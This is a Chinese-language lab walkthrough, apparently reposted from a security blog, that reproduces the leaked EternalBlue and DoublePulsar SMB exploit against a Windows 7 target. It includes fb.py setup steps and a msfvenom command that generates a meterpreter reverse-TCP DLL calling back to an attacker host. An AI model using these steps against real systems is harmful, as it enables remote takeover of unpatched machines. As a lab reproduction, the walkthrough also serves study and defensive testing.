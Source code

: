 > 作者：边界安全
> [原文链接](https://mp.weixin.qq.com/s/RzGeOWdbvs-GOj6dAB9xgw##)

---

测试环境：

靶机：*windows7 64位旗舰版 **445 open***

攻击环境：
1. 下载并安装[python2.6](https://www.python.org/download/releases/2.6.6/)

2. 下载并安装[pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download)

3. 将C:\Python26添加到环境变量PATH中。

下载 EQGRP_Lost_in_Translation，找到\windows\fb.py。

fb.py有个地方需要修改一下：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/08.jpg)

第26,27,28行注释掉

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/06.jpg)


还有第72行。

打开cmd切入windows目录。执行python fb.py

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/03.jpg)


按照他的要求输入[默认]参数。

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/09.jpg)

然后use Eternalblue，一路回车：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/01.jpg)


注意的是在这里选择1：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/04.jpg)


一路回车就可以看到succeeded了。

接着执行use Doublepulsar。

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/02.jpg)


根据实际情况选择64位还是32位。

然后进入关键步骤：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/05.jpg)


选择运行dll文件，然后输入dll文件的路径，这个dll文件我是用msf生成的。

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.171 LPORT=6666 -f dll > msfx64.dll

如果是32位的就生成32位的，如果弄错了也没事，工具会利用失败，重来就可以了。

然后一路回车：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/07.jpg)


这样子就是成功了。看看msf：

![](https://raw.githubusercontent.com/5cr1pt/img4markdown/master/Windows_SMB%E8%BF%9C%E7%A8%8B%E6%BA%A2%E5%87%BA0day%E5%A4%8D%E7%8E%B0/0.jpg)
